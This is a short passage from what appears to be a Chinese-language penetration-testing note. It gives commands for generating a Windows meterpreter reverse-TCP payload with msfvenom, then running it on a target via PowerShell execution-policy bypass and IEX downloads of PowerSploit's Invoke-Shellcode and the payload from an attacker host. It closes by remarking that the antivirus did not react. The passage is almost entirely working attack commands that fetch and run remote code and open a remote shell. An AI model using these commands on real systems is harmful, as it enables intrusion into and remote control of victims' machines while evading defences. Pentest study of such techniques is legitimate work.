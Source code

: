 	生成code
	>msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.0.108 LPORT=12138 -f powershell -o /var/www/html/1.ps1
	目标执行
	> powershell -ep bypass
	> IEX(New-Object Net.WebClient).DownloadString('http://192.168.0.108/ps/powersploit/CodeExecution/Invoke-Shellcode.ps1')
	> IEX(New-Object Net.WebClient).DownloadString('http://192.168.0.108/1.ps1')
	> Invoke-Shellcode -Shellcode ($buf) -Force

![image](/assets/Pentest_Note/master/img/82.png)
![image](/assets/Pentest_Note/master/img/83.png)

	防护软件没反应